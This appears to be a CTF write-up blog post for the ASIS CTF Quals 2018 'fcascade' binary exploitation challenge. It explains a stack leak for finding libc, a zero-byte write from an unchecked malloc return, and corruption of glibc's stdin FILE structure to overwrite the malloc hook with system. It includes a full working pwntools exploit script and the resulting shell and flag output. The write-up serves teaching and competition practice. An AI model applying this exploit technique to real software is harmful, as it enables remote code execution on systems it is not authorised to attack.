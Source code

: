 ```yaml
---
layout: post
category: Pwn
title: asis CTF quals 2018 fcascade
tags: 
    - kowu
---
```


We were only provided with the binary. A first look at the challenge revealed an obvious memory leak (in the 'leak' function).
It was reading input without zero terminating into a buffer on the stack and printing it out afterwards.
We can dump some old stack content with this method. On my local machine I found out that one interesting address in the dump belongs to libc's `__libc_start_main_ret` and we can use it to retrieve libc's base address.
Also a [libc database search](https://libc.blukat.me/?q=__libc_start_main_ret%3A830) revealed that we propably have a `libc6_2.23-0ubuntu[3,7,9,10]_amd64` on the remote target. So far so good.



Besides the 'leak' function there was also a 'ccloud' one.
```c
void ccloud()
{
  size_t size;
  void *buf;

  for (buf = 0LL;;free(buf))
  {
    write(1, "> ", 2uLL);
    _isoc99_scanf("%lu", &size);
    getchar();
    buf = malloc(size);
    write(1, "> ", 2uLL);
    read(0, buf, size);
    *((_BYTE *)buf + size - 1) = 0;
  }
}
```
The bug here resides in the nonexistent return value error handling of malloc. If malloc returns zero, for example if there isn't enough space, the follow up read will fail as well (but not crash). Nevertheless `*((_BYTE *)buf + size - 1) = 0;` will write a zerobyte at `size - 1`. So we can write to a location of our choice! But how to turn this into RCE? The answer lies in how file streams are handled in glibc. Let's take a look at the definitions.
```c
struct _IO_FILE
{
  int _flags;                /* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;        /* Current read pointer */
  char *_IO_read_end;        /* End of get area. */
  char *_IO_read_base;        /* Start of putback+get area. */
  char *_IO_write_base;        /* Start of put area. */
  char *_IO_write_ptr;        /* Current put pointer. */
  char *_IO_write_end;        /* End of put area. */
  char *_IO_buf_base;        /* Start of reserve area. */
  char *_IO_buf_end;        /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```
`_IO_buf_base` and `_IO_buf_end` are of special interest for us. They define the boundaries of the filestream's buffer.
![m1](/assets/img/asis_fstream.png)
If we can overwrite the LSB of `_IO_buf_base` with a zero, we are able to overwrite all the red marked parts of the structure by the next call of scanf. We then simply overwrite the base and end pointers with an address range of our choice and can go get a shell. I used the malloc hook for this purpose. To turn `malloc(size)` into a `system("/bin/sh")` scanf needs to succesfully parse a number wich represents the memoryaddress containing the '/bin/sh' string. As the IO buffer is consuming all it's bytes first before reading new ones, it is sufficient to place the number string for fscanf somewhere at the end in the overwritten structure where it doesn't bother (it doesn't seem to bother `_IO_backup_base`). When all bytes are consumed by scanf and getchar new bytes are read at the location of our choice (malloc hook) and the next malloc call will result in a shell.

```python
from pwn import *

# __libc_start_main_ret 830 -> libc6_2.23-0ubuntu[3,7,9,10]_amd64
offset___libc_start_main_ret = 0x020830
offset___IO_2_1_stdin_ = 0x3c48e0
offset_system = 0x045390
offset_str_bin_sh = 0x18cd57


def leaklibc(r):
    r.send("11010110")
    r.recvuntil("> ")
    r.send("A" * 0x98)
    r.recvn(0x98)
    res = r.recvuntil("> ")[:-2]
    res = res + '\x00' * (8 - len(res))
    res = struct.unpack("<Q", res)[0] - offset___libc_start_main_ret
    r.send("11111111")
    r.recvuntil("> ")
    return res


def pwn(r):
    r.recvline()
    r.recvuntil("> ")
    libcbase = leaklibc(r)
    log.info("libc {:x}".format(libcbase))
    _IO_2_1_stdin_ = libcbase + offset___IO_2_1_stdin_

    r.send("10110101")
    r.recvuntil("> ")
    r.send(
        str(_IO_2_1_stdin_ + 0x38 + 1) + "\n" +         # overwrites LSB of _IO_buf_base
        struct.pack("<Q", _IO_2_1_stdin_ + 0x83) * 3 +  # partial new _IO_FILE struct
        struct.pack("<Q", _IO_2_1_stdin_ + 0x220) +     # new buf_base
        struct.pack("<Q", _IO_2_1_stdin_ + 0x240) +     # new buf_end
        "\x00" * 8 + str(libcbase + offset_str_bin_sh)  # number for scanf to parse
    )
    r.recvuntil("> > > ")
    r.send(struct.pack("<Q", libcbase + offset_system) * 4)
    r.interactive()


if __name__ == '__main__':
    pwn(remote('178.62.40.102', 6002))
```
shell :)

```
[x] Opening connection to 178.62.40.102 on port 6002
[x] Opening connection to 178.62.40.102 on port 6002: Trying 178.62.40.102
[+] Opening connection to 178.62.40.102 on port 6002: Done
[*] libc 7f0e51e36000
[*] Switching to interactive mode
> > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > 
cat /home/pwn/flag
ASIS{1b706201df43717ba2b6a7c41191ec1205fc908d}
```
